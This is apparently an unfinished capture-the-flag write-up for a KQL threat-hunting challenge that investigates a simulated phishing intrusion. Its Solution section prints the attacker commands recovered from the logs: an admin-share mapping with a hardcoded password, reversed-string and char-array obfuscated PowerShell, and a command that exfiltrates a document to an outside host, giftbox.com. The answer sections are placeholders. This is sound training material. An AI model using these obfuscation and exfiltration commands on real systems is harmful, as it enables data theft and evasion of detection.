 ```yaml
---
icon: material/text-box-outline
---
```


# KQL Kraken Hunt (submitted after deadline)

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective 1 terminal](https://.../)

## Objective

!!! question "Request"
    Use Azure Data Explorer to uncover misdeeds in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.

I've got a network infection case on Film Noir Island that needs your expertise.

Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.

I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?

You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.

Before you start, you'll need to create a free cluster.

Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.

Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.

If you run into any problems, just give me a holler, I've got your back.

Good hunting, and let's bring this cyber criminal to justice.

Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.

## Hints

??? tip "Outbound Connections"
    Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!

??? tip "KQL Tutorial"
    Once you get into the Kusto trainer, click the blue Train me for the case button to get familiar with KQL.
    
??? tip "File Creation"
    Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

## Solution

    Notes: Case 4 time stamp for the command to list network shares was actually not correct. The challenge accepted the timestamp of the net /share command rather than net use.
    
    Powershell code found:
    
    Invoke-WmiMethod -ComputerName $Server -Class CCM_SoftwareUpdatesManager -Name InstallUpdates - ArgumentList (, $PendingUpdateList) -Namespace root[&ccm&]clientsdk | Out-Null



cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123


( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''

translates to: powershell -c Copy-Item \\NorthPoleFiles\c\MissionCritical\NiceList.txt C:\Desktop\NiceList.txt



[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*MDr*').NamE[3,11,2]-joiN

converted to text:
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
    
...


### Images

![MS Copilot help](../img/objectives/o13/decoded_from_ms_copilot.PNG)


!!! success "Answer"
    Insert the answer to the objective here.

## Response

!!! quote "Tangle Coalbox"
    Copy the final part of the conversation with Elf Name here.
